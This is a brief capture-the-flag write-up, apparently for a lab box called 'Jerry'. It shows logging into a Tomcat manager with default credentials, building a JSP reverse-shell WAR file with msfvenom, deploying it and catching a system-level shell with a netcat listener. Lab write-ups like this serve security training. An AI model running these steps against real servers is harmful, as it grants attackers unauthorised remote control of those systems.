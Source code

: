 # Jerry

We have an open 8080 port and we verify it is a Tomcat. We check for the manager app and it
uses default credentials "tomcat" and "s3cret". We have it easy, we just need to upload our
payload in war format. We use *msfvenom* utility:

```
msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=[ip] LPORT=[port] -o brilemau.war
```

We upload the war file and we start to listen with netcat:

```
nc -lvp [port]
```

When we access to the deployed war we should get a shell directly as **system user**.
